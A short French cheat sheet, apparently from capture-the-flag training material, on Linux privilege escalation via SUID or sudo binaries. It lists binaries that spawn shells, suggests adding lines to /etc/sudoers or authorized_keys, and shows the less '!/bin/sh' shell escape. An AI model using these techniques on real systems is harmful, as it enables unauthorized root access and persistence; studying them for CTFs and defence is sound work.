 Que faire avec un binaire possédant un setUID bit ?
```
- Lancer un shell
- Lire un flag
- Copier un fichier
- Ajouter une ligne à un fichier : /etc/sudoers, /etc/passwd, ~/.ssh/authorized_keys
- ...
```








## SUID/Sudo exploitation







## Process permettant de lancer un shell

De nombreux process permettent de lancer un shell. Idéal s'ils sont en sudo ou avec un setUID bit.
```
- find
- nmap
- vi
- less
- awk
- tee
...
```

Reference: https://gtfobins.github.io/







## Sudo/SUID bit - less

Less peut être utilisé pour lire des fichiers. Presser q pour sortir du lecteur.
```
./less flag.txt
```

ou pour obtenir un shell en ouvrant un fichier, et une fois dans le lecteur ouvrir un shell en tapant !/bin/sh
```
./less fichier
!/bin/sh
```




